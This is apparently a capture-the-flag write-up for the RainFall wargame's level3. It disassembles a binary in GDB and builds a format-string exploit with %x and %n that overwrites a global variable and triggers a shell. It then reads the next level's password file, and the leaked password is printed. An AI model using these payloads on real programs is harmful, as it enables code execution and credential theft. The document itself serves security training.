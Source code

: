 # level3

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Take a look at `main`, nothing tremendous. It calls `v`:

```gdb
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218                   ; 536 bytes of stack space reclaimed
   0x080484ad <+9>:     mov    eax,ds:0x8049860            ; eax = stdin
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax     ; push stdin to stack
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200   ; push 512 to stack
   0x080484be <+26>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>       ; call fgets
   0x080484cc <+40>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>      ; call printf
   0x080484da <+54>:    mov    eax,ds:0x804988c            ; eax = data segment variable (that equals 0 here)
   0x080484df <+59>:    cmp    eax,0x40                    ; compare eax to 0x40 (64 in decimal)
   0x080484e2 <+62>:    jne    0x8048518 <v+116>           ; jump to leave instruction
   0x080484e4 <+64>:    mov    eax,ds:0x8049880            ; eax = stdout
   0x080484e9 <+69>:    mov    edx,eax                     ; edx = eax
   0x080484eb <+71>:    mov    eax,0x8048600               ; eax = 0x8048600 (contains "Wait what?!\n")
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx     ; push edx to stack
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc     ; push 12 to stack
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1     ; push 1 to stack
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax         ; push eax to stack (arg[0])
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>      ; call fwrite
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d   ; push 0x804860d content to stack
   0x08048513 <+111>:   call   0x80483c0 <system@plt>      ; call system
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

We notice numerous calls: `fgets`, `printf`. `fwrite` and `system`. Also, a conditionnal jumps seems to lead to the end of the function without executing `fwrite` and `system`.

We look at the content of the address 0x804860d (`x/s 0x804860d` command in gdb) pushed on the stack before the call to `system`, which is the string `"/bin/sh"`.

So we know that we don't have to jump after the `cmp eax,0x40` instruction to reach this `system` call.

Since `fgets` protects from a buffer overflow attack, we look for `printf` vulnerabilities, and find [this document](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) (also attached in 'Ressources' directory) about the format string one.

This will allow us to write the value 0x40 (64 in decimal) in the address `0x804988c` which is copied to `eax` before the `cmp eax,0x40` instruction. Here is how to proceed.

## Exploit

First of all, we inject as many `%x` conversion as needed to make printf move forward through the stack and reach the address where the string we have provided is stored.

```console
level3@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x\n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Here we have read the first 16 bytes of the stack, and we know that the 4th converted argument that `printf` is the address of the supplied string (`AAAA` => `41414141`).

We can now use the `%n` conversion which prints the number of characters written so far by `printf` to write the value 64 in the address `0x804988c`.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x0812345678901234567890123456789012345678901%x%x%x%n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 - | ./level3
...
[hit return, some garbage display]
...
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```